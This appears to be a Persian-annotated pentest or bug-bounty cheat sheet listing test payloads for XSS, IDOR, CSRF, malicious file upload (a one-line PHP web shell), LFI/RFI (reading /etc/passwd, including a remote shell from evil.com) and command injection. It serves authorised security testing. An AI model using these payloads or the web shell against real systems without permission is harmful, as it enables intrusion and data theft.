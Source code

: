 
### 🔹 XSS (Cross-Site Scripting)
- پارامترها: `q`, `search`, `message`, `comment`, `redirect`  
- Payloads:
  - `<script>alert(1)</script>`  
  - `"><img src=x onerror=alert(1)>`  
  - `<svg/onload=alert(document.domain)>`

---

### 🔹 IDOR (Insecure Direct Object Reference)
- Endpoint: `/api/v1/user/123/profile`  
- Test: تغییر ID → `124`, `125`, `999`  
- اگر دیتا بدون مجوز برگرده ⇒ **P1**  

---

### 🔹 CSRF (Cross-Site Request Forgery)
- Endpoint: `/api/v1/settings/email`  
- Payload (malicious form):
  ```html
  <form action="https://target.com/api/v1/settings/email" method="POST">
    <input type="hidden" name="email" value="attacker@mail.com">
    <input type="submit">
  </form>

---

### File Upload

Endpoint: /api/v1/upload

تست فایل مخرب:

shell.php → <?php system($_GET['cmd']); ?>

test.jpg with polyglot payload

---

### 🔹 LFI / RFI (File Inclusion)

Endpoint: /download?file=report.pdf

Payloads:

../../../../etc/passwd

php://filter/convert.base64-encode/resource=index.php

http://evil.com/shell.txt

---

### 🔹 Command Injection

Endpoint: /ping?ip=127.0.0.1

Payloads:

127.0.0.1; whoami

127.0.0.1 && id
  ```